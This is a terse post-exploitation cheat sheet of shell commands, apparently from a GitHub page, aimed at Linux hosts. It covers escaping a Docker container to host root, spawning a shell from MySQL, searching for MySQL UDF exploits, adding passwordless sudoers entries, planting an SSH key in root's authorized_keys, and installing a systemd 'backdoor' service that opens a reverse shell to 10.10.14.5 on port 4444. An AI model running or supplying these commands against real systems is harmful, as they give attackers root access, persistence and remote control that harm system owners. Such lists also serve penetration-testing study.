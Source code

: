 ## Escape Docker container to host root
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker run --rm -v /etc:/mnt/etc -it alpine vi /mnt/etc/passwd
```

## Check if user is in docker group
```bash
id | grep docker
groups | grep docker
```

## Access MySQL as root and execute shell
```bash
mysql -u root -p
\! /bin/bash
```

## Check for MySQL UDF exploits
```bash
searchsploit mysql udf
searchsploit -m 1518
```

## Add user to sudoers file
```bash
echo "user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
echo "attacker ALL=(ALL) NOPASSWD:ALL" | tee -a /etc/sudoers
```

## Install SSH key for persistence
```bash
mkdir -p /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
chmod 700 /root/.ssh
```

## Create systemd backdoor service
```bash
cat > /etc/systemd/system/backdoor.service << 'EOF'
[Unit]
Description=Backdoor Service

[Service]
Type=simple
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1"
Restart=always

[Install]
WantedBy=multi-user.target
EOF
systemctl enable backdoor.service
systemctl start backdoor.service
```

